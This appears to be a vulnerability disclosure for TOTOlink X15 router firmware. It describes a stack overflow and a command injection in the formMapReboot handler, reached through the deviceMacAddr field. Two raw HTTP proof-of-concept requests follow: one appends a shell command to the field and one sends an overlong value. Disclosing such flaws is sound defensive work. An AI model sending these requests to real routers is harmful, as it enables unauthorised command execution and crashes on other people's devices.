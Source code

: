 #### Affected version

V1.0.0-B20230714.1105

#### Vulnerability details

There are stack overflow and command injection vulnerabilities in the formMapReboot function. There is no good control length by setting deviceMacAdd. There is a stack overflow when strcpy is copied, and the return address can be overwritten. When v5 is copied to the v4 variable, there is no command filtering, and command execution can be achieved, so that command execution can be achieved.

![image-20250523202635487](picture/TOTOlink-x15-Gh-V1.0.0-B20230714/image-20250523202635487.png)

#### POC1-(code-injection)

~~~http
POST /boafrm/formMapReboot HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:137.0) Gecko/20100101 Firefox/137.0
Referer: http://192.168.0.1/tcpipwan.htm
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Priority: u=0
X-Requested-With: XMLHttpRequest
Origin: http://192.168.0.1
Accept: */*
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 983

sessionCheck=91c636aec77c15df3117a988288bd371&deviceMacAddr=127.0.0.1; touch /1.txt &
~~~

##### result

![image-20250523202943693](picture/TOTOlink-x15-Gh-V1.0.0-B20230714/image-20250523202943693.png)

#### POC2-(stack_overflow)

~~~http
POST /boafrm/formMapReboot HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:137.0) Gecko/20100101 Firefox/137.0
Referer: http://192.168.0.1/tcpipwan.htm
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Priority: u=0
X-Requested-With: XMLHttpRequest
Origin: http://192.168.0.1
Accept: */*
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 983

sessionCheck=91c636aec77c15df3117a988288bd371&deviceMacAddr=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
~~~

##### result

![image-20250523203451493](picture/TOTOlink-x15-Gh-V1.0.0-B20230714/image-20250523203451493.png)